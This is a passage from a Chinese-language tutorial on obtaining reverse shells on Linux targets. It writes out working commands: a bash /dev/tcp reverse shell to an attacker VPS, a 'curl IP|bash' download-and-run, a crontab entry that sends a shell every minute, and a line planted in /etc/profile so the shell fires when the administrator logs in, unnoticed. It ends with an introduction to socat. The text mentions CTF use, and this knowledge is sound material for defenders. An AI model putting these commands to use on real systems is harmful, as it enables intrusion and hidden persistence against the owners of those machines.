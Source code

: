 bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1  
 

执行效果如下：

### Curl配合Bash反弹shell

这里操作也很简单，借助了Linux中的管道。

首先，在攻击者vps的web目录里面创建一个index文件（index.php或index.html），内容如下：

bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1  
 

并开启2333端口的监听。

然后再目标机上执行如下，即可反弹shell：

curl 47.xxx.xxx.72|bash  
 

执行效果如下：

根据curl命令和Linux管道的作用，你不难理解这其中的原理。

Curl配合Bash反弹shell的方式在CTF题目中经常出现，curl IP|bash 中的IP可以是任意格式的，可以是十进制、十六进制、八进制、二进制等等。

### 将反弹shell的命令写入定时任务

我们可以在目标主机的定时任务文件中写入一个反弹shell的脚本，但是前提是我们必须要知道目标主机当前的用户名是哪个。因为我们的反弹shell命令是要写在 /var/spool/cron/[crontabs]/<username> 内的，所以必须要知道远程主机当前的用户名。否则就不能生效。

比如，当前用户名为root，我们就要将下面内容写入到 /var/spool/cron/root 中。(centos系列主机)

比如，当前用户名为root，我们就要将下面内容写入到 /var/spool/cron/crontabs/root 中。(Debian/Ubuntu系列主机)

*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/47.xxx.xxx.72/2333 0>&1  
  
#每隔一分钟，向47.xxx.xxx.72的2333号端口发送shell  
 

将反弹shell的命令写入/etc/profile文件

将以下反弹shell的命写入/etc/profile文件中，/etc/profile中的内容会在用户打开bash窗口时执行。

/bin/bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1 &  
# 最后面那个&为的是防止管理员无法输入命令  
 

当目标主机管理员远程连接该主机时，就会执行该命令，成功获得目标机的shell：


### 利用Socat反弹shell

Socat是Linux 下一个多功能的网络工具，名字来由是”Socket CAT”，因此可以看出它是基于socket的，其功能与netcat类似，不过据说可以看做netcat的加强版，事实上的确也是如此。我这里只简单的介绍下怎么使用它开启监听和反弹shell，其他详细内容可以参见这里：http://brieflyx.me/2015/linux-tools/socat-introduction/

安装Socat的方法很简单：

- Ubuntu等可以直接使用 apt-get install socat 命令进行安装
- 也可以去官网下载源码包：http://www.dest-unreach.org/socat
